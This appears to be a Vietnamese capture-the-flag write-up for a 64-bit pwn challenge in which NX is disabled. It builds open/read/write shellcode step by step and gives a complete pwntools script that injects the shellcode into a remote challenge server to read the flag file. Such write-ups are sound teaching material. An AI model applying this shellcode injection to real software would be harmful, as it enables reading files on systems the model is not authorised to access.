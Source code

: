 # **Shellcode - PWN CTF Challenge**

### ***Description***
---

> Dễ mà tự viết đi trên trên mạng không có đâu
> - Bắt buộc dùng open, read, write để đọc flag
> - Không cần quan tâm đến seccomp
> - Dùng syscall ngoài open, read, write sẽ bị khóa

### ***Background and Ideas***
---

Đầu tiên ta kiểm tra được đây là file ELF 64-bit, chỉ được bật flag `PIE`. Nhận thấy `NX` đang tắt nên khả năng ta có thể chèn shellcode.

![checkfile](images/checkfile.png)

Thực thi thử chương trình thì chương trình cho phép nhập lệnh để đọc flag tại file `PhaPhaKhongCoDon.txt` nhưng giới hạn chỉ sử dụng các hàm `open`, `read`, `write`.

![test](images/test.png)

Từ đó, ta có thể hiểu nhiệm vụ sẽ là viết 1 đoạn shellcode có chức năng `open` file `PhaPhaKhongCoDon.txt` rồi `read` nội dung file vào 1 buffer và cuối cùng là `write` nó ra màn hình.

Đây là một [bài](https://drx.home.blog/2019/04/03/pwnable-tw-orw/) có ý tưởng hoàn toàn tương tự nhưng ở kiến trúc 32-bit. Dựa vào đó ta có thể tự viết đoạn mã assembly ở kiến trúc 64-bit.

Ta sẽ gọi các hàm `sys_open()`, `sys_read()`, `sys_write()` lần lượt theo ý tưởng ở trên. Sử dụng [link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) này ta có thể hiểu được cấu trúc khi gọi các hàm trên.

![syscall](images/syscall_syntax.png)

### ***Exploitation***
---

Đầu tiên là thực hiện push tên file flag `PhaPhaKhongCoDon.txt` vào stack. Vì đây là kiến trúc 64-bit nên mỗi lần chỉ push được 8 bytes nên ta sẽ push 3 lần. Khi đó, `PhaPhaKhongCoDon.txt` sẽ nằm tại rsp.

```js
mov 	rbx, %d' % u64(b'.txt\x00\x00\x00\x00')
push 	rbx
mov 	rbx, %d' % u64(b'ongCoDon')
push 	rbx
mov 	rbx, %d' % u64(b'PhaPhaKh')
push 	rbx
```

Ở bước gọi `sys_open()`, ta set các thanh ghi:
- `rdi` sẽ lấy tên file từ `rsp`
- `rdx` = 0 để mở file với mode O_RDONLY (Khác 0 sẽ không xem được flag trên server do server set quyền chỉ cho phép đọc)
- `rsi` không cần quan tâm, ta set bằng 0. 
- `rax` sẽ là `0x2` (syscall number)

```js
mov		rdi, rsp		
mov		rsi, 0
mov 	rdx, 0	
mov		rax, 2	
syscall
```
Ở bước gọi `sys_read()`, ta set các thanh ghi:
- `rdi`: file descriptor của file cần mở. Chính là giá trị trả về từ hàm `sys_open()` bên trên đã được lưu vào thanh ghi rax. Nên `rdi = rax`.
- `rsi` lưu địa chỉ buffer để đọc dữ liệu file vào. Phải chắc chắn là thanh ghi có địa chỉ nên ở đây ta chọn luôn `rsp`.
- `rdx` là số byte đọc từ file, set 0x100 cho đủ lớn 
- `rax` sẽ là `0x0` (syscall number)

```js
mov		rdi, rax
mov		rsi, rsp
mov		rdx, 0x100
mov 	rax, 0
syscall
```
Ở bước gọi `sys_write()`, ta set các thanh ghi:
- `rdi`: set bằng 0x1 để output nội dung ra màn hình.
- `rsi` lưu địa chỉ buffer để ghi dữ liệu file ra, chính là `rsp` ở trên.
- `rdx` là số byte cần ghi, chính là giá trị trả về của `sys_read()` nên `rdx = rax`.
- `rax` sẽ là `0x1` (syscall number)

```js
mov		rdi, 1
mov		rsi, rsp
mov		rdx, rax
mov 	rax, 1
syscall
```
Dựa trên những phân tích trên, ta có mã khai thác hoàn chỉnh để chèn shellcode vào chương trình.

```js
from pwn import *

#p = process('./shellcode')
r = remote('45.122.249.68', 10017)

shellcode = asm('\n'.join([
	'mov rbx, %d' % u64(b'.txt\x00\x00\x00\x00'),
	'push rbx',
	'mov rbx, %d' % u64(b'ongCoDon'),
	'push rbx',
	'mov rbx, %d' % u64(b'PhaPhaKh'),
	'push rbx', 
	'mov	rdi, rsp',		
	'mov	rsi, 0',
	'mov 	rdx, 0',	
	'mov	rax, 2',	
	'syscall',
	'mov	rdi, rax',
	'mov	rsi, rsp',
	'mov	rdx, 0x100',
	'mov 	rax, 0',
	'syscall',
	'mov	rdi, 1',
	'mov	rsi, rsp',
	'mov	rdx, rax',
	'mov 	rax, 1',
    'syscall',
]), arch='amd64', os='linux')

r.recvuntil(b'PhaPhaKhongCoDon.txt\n')
r.sendline(shellcode)
r.interactive()
```
Thực thi và ta có flaggg!

![flag](images/flag.png)

> **FLAG: Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**






